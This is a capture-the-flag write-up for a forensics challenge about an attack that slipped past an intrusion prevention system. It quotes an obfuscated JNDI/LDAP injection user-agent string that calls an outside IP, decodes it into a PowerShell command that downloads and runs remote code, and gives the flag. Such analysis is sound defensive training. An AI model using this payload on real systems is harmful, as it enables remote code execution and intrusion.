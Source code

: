 #### Challenge:

We implemented a basic IPS to help protect our site from new attacks.

Somehow, a newer more sophisticated version of a regularly observed attack was successfully executed against the website.

What is the name of the script that was run?

Flag format: Name of the script that was run, case sensitive.

---

#### Solution:

Running (on the [JSON](../Shop-SetupDisclaimer/DownUnderShop.JSON)):

```bash
grep "useragent" DownUnderShop.JSON | sort | uniq
```

I noticed

```text
    "useragent": "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://41.108.181.141:5552/Basic/Command/Base64/cG93ZXJzaGVsbC5leGUgLWV4ZWMgYnlwYXNzIC1DICJJRVggKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHBzOi8vZG93bnVuZGVyY3RmLmNvbS9wVENOcDVwNkxQMGQ3cUE3N3l2YjRTSGY0MCcpOyI=}",
```

Decoding that `base64` part gives:

```text
Decoding base64 gives:
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://downunderctf.com/pTCNp5p6LP0d7qA77yvb4SHf40');
```

The last segment of the URL is the flag.

---

<details><summary>FLAG:</summary>

```
pTCNp5p6LP0d7qA77yvb4SHf40
```

</details>
<br/>
